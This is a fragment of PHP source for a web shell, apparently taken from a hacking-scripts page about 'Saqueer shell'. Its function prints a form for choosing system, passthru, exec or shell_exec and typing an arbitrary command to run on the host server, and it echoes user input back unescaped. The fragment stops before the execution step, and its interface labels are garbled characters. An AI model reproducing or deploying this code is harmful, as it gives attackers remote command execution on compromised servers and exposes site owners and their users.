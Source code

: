 





















function ccmmdd($ccmmdd2,$att)
{
global $ccmmdd2,$att;
echo '
&lt;table style="width: 100%" class="style1" dir="rtl"&gt;
	&lt;tr&gt;
		&lt;td class="style9"&gt;&lt;strong&gt;���� ������&lt;/strong&gt;&lt;/td&gt;
	&lt;/tr&gt;
	&lt;tr&gt;
		&lt;td class="style13"&gt;
				&lt;form method="post"&gt;
					&lt;select name="att" dir="rtl" style="height: 109px" size="6"&gt;
';
if($_POST['att']==null)
{
echo '						&lt;option value="system" selected=""&gt;system&lt;/option&gt;';
}else{
echo "						&lt;option value='$_POST[att]' selected=''&gt;$_POST[att]&lt;/option&gt;
						&lt;option value=system&gt;system&lt;/option&gt;
";

						
}

echo '
						&lt;option value="passthru"&gt;passthru&lt;/option&gt;
						&lt;option value="exec"&gt;exec&lt;/option&gt;
						&lt;option value="shell_exec"&gt;shell_exec&lt;/option&gt;	
					&lt;/select&gt;
						&lt;input name="page" value="ccmmdd" type="hidden"&gt;&lt;br&gt;
						&lt;input dir="ltr" name="ccmmdd2" style="width: 173px" type="text" value="';if(!$_POST['ccmmdd2']){echo 'dir';}else{echo $_POST['ccmmdd2'];}echo '"&gt;&lt;br&gt;
						&lt;input type="submit" value="�����"&gt;
				&lt;/form&gt;
		
		&lt;/td&gt;
	&lt;/tr&gt;
	&lt;tr&gt;
		&lt;td class="style13"&gt;
';


 [1]: http://hackingscripts.com/wp/wp-content/uploads/2014/02/Saqueer-shell.png